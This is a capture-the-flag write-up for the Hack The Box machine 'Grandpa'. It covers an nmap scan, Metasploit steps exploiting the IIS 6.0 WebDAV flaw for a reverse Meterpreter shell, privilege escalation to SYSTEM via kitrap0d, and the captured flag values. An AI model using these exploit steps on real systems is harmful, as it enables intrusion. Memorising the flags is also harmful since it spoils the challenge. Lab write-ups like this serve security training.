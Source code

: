 # Grandpa

## IP

> 10.10.10.14
## nmap Scan

```
nmap -T4 -A 10.10.10.14 -Pn
```

```a
Nmap scan report for 10.10.10.14
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Wed, 04 Aug 2021 04:18:02 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows XP SP2 or SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   71.66 ms  10.10.16.1
2   106.62 ms 10.10.10.14
```

## Open Ports
       
>80/tcp open  http    Microsoft IIS httpd 6.0

HTTP

## HTTP

http://10.10.10.14/

The server is using " Microsoft IIS httpd 6.0" so I searched online for exploits and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/)

I followed the steps and I we got a meterpreter shell! But I cannot do anything, a lot of access denied :(

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.14
set lhost tun0
```

I also tried using the suggester and all the options got access denied

> [+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

The problem was that we were in a folder with no System Access

Locating a better folder

```ps```

![[Pasted image 20210804003440.png]]

We need to migrate to a session with Network Service

```migrate 1828```

```getuid```

>Server username: NT AUTHORITY\NETWORK SERVICE

Now we are an user on the machine, but still not System.... Lets try the suggester again 

```
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

We are System!!!

### Finding user.txt

```
cd c:\\"Documents and Settings"\\Harry\\Desktop
cat user.txt
```

> bdff5ec67c3cff017f2bedc146a5d869

### Finding root.txt

```
cd c:\\"Documents and Settings"\\Administrator\\Desktop
cat root.txt
```

> 9359e905a2c35f861f6a57cecf28bb7b